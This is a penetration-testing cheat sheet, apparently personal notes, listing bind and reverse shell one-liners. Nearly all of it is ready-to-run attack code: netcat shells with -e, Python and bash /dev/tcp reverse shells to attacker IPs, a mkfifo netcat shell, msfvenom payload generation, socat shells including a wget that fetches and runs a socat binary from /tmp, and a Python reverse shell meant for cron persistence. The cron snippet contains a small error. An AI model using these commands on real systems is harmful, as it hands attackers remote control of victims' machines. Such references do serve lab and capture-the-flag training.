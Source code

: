 ### Bind/Reverse Shells

#### Kali Shells
```
# Several shells located in Kali at
/usr/share/laudanum/
```

#### Bind Shell (don't work behind firewalls)
```
# On Windows machine offer shell
nc -lvp 4444 -e cmd.exe

# On Kali machine connect
nc -nv win.dow.si.p 4444
```
#### Reverse Shell
```
# On Kali Machine listen for connection
nc -lvp 4444

# On target machine
nc -nv att.ac.kin.gip 4444 -e /bin/bash
```

### Python3 reverse shell command one-liner
```
// Start a listener on attacking box
nc -lvp 4444

// Execute this command on the target box
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.5",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

### Bash reverse shell one-liner
```
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

### Improving your Shell
```
# Python one liner
python -c 'import pty; pty.spawn("/bin/bash")'

# Python to make fully interactive
python -c 'import pty; pty.spawn("/bin/sh")'
# Then ctrl-z to background shell and run
stty raw -echo
fg
# It will look ugly but just type the following
reset
# If this shell is the incorrect size for your terminal, type
stty size
# And specify the size
stty -rows 48 -columns 120

# Perl
perl —e 'exec "/bin/sh";'
```
### If using netcat and -e option not available, use this one liner
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
### Improving your Shell with msfvenom one-liners
```
# List the options
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'

# Select and use one
msfvenom -p cmd/unix/reverse_netcat LHOST=10.0.3.4 LPORT=4444 R
```

### Using socat to invoke full interactive shell
```
# On attacking machine, listen with socat
socat file:`tty`,raw,echo=0 tcp-listen:4444

# On victim machine with socat already installed, replace 10.0.3.4 with attacking ip
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  

# On victim machine without socat installed
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  

```

### Error opening terminal: 
```
# If getting Error opening terminal: xterm-256color.
export TERM=xterm
```
### Python shell suitable for .py file cron jobs
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.7",4444))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")
```

### Python PTY Shells
```
git clone https://github.com/infodox/python-pty-shells.git
# tcp_pty_backconnect.py is the reverse shell, modify it with your ip/port
# tcp_pty_shell_handler.py to handle the reverse shell
python tcp_pty_shell_handler.py -b yourip:port
```

